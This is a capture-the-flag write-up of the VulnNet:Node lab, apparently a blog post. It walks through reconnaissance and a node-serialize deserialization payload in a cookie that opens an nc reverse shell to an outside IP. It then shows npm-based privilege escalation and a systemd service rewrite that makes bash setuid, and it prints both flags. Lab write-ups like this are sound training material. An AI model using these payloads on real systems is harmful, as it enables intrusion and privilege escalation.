 ```yaml
---
title: Vulnet:Node
layout: post
author: Bit Criminals Team
date: 2021-05-06 17:02:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/vulnnetnode
---
```


So we run a full Nmap scan to see which ports are open,and we see that only one port is open.

```py
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```
And since a tcp port is open we run our routine gobuster scan , which shows us that these directories are present.

![](/images/MaskdMafia/node1.png)

Meanwhile,opening the website on our browser we are greeted with this page.

![](/images/MaskdMafia/node2.png)

And inspecting the page we see that it has a base64 encoded cookie , which , on decrypting gives this:

```py
{"username":"Guest","isGuest":true,"encoding": "utf-8"}
```
On changing the value of Username from "Guest" to "Admin" shows us "Welcome Admin" on the page.
However,changing the cookie value to anything else shows us errors

![](/images/MaskdMafia/node-3.png)

So we decide to put a reverse shell in the Username field, which gives us access to the machine .

```py
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 
2>&1|nc 10.9.8.34 1337 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })",
"isGuest":true,"encoding": "utf-8"}
```
![](/images/MaskdMafia/node-4.png)

So we try to see what commands we are allowed to execute as www

![](/images/MaskdMafia/node5.png)

Searching for an npm exploit on GTFOBins we get one result so lets try it out !

So we run these two commands on the machine:

```py
echo '{"scripts": {"preinstall": "/bin/sh"}}' > package.json
sudo -u serv-manage /usr/bin/npm -C ./ --unsafe-perm i
```
Lets see if it worked.

![](/images/MaskdMafia/node6.png)

Yay! We are now serv-manage.We now go to /home/serv-manage to get our user.txt.

User-Flag: THM{064640a2f880ce9ed7a54886f1bde821}

Next we need to get root privileges.So we run sudo -l to see which commands the user serv-manage is allowed to execute.

![](/images/MaskdMafia/node7.png)

So we go to the directory which has vulnnet-auto.timer and write the following to the files after stopping the vulnet-auto.timer.

```py
echo '[Unit]
Description=Run VulnNet utilities every 30 min
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
[Install]
WantedBy=basic.target' > vulnnet-auto.timer
```

```py
echo '[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target' > vulnnet-job.service
```

After that we run the following commands:

```py
sudo /bin/systemctl stop vulnnet-auto.timer
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl start vulnnet-auto.timer
```

Waited sometime and we got the root priveleges !
Now we go to the root directory and see the contents of root.txt.

![](/images/MaskdMafia/node-8.png)

Root Flag: THM{abea728f211b105a608a720a37adabf9}



